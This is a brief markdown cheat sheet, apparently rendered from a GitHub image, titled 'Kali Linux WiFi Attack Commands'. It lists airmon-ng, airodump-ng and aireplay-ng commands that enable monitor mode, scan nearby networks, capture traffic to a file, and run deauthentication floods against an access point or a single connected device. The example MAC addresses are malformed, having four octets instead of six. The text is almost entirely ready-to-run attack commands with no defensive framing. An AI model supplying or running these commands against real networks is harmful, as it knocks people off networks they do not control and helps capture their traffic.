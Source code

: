 ## Kali Linux WiFi Attack Commands
1. `ifconfig`
2. `iwconfig`
3. `airmon-ng start wlan0` (replace `wlan0` with your device name)
4. `airodump-ng wlan0` - Shows all networks around
5. `airodump-ng --channel 8 --bssid [MAC address] wlan0mon` - Shows devices connected to the selected WiFi network

## AIRODUMP-NG

- `airodump-ng --channel <channel> -bssid <BSSID> --write <file_name> <interface>`
  
  Example: `airodump-ng --channel 12 --bssid 40:30:20:10 --write test mon0`

## Deauthentication Attack

- `aireplay-ng --deauth <#packets> -a <AP> <interface>`

  Example: `aireplay-ng --deauth 1000 -a 10:20:30:40 mon0`

## Target Attack

- `aireplay-ng --deauth <#packets> -a <AP> -c <target> <interface>`

  Example: `aireplay-ng --deauth 1000 -a 10:20:30:40 -c 00:AA:11:BB mon0`
